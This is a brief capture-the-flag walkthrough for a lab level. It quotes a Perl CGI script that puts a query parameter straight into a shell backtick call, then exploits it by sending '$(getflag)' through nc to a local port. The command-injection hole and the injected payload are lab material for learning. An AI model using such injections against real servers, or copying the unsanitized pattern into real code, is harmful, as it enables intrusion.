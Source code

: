 ## Walkthrough :
- This level 4 contain a perl script : 
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print \`echo $y 2>&1\`;
}
x(param("x"));
```
- this program shows that a webserver is listening on localhost:4747 and expecting a x param, which will be passed to a sub routine.
```
print \`echo $y 2>&1\`;
```
- this line allows the output of **echo $y to be passed to print function**.
- we only need to pass our exploit *$(getflag)* to echo, this will runs as a sub command .
    - connect using
    ```
    nc localhost 4747
    ```
    - GET /?x=$(getflag)
    ```


## Ressources
- [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)
